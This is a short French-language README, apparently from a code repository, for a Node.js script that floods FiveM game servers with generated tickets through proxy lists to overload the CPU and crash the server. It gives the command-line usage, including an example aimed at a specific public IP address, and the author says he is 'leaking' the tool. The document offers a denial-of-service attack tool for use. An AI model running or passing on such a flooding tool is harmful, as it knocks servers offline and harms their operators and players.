 Ce script peut générer des tickets FiveM qui, en cas d'inondation, provoquent une charge CPU élevée et font planter le serveur Web


usage : 
`node fivem.js http://SERVER:30120/client proxy_file duration request_per_proxy`
`node fivem.js http://216.151.164.20:30120/client http.txt 120 64`

je leak le script car je connais bien les skidos de télégram
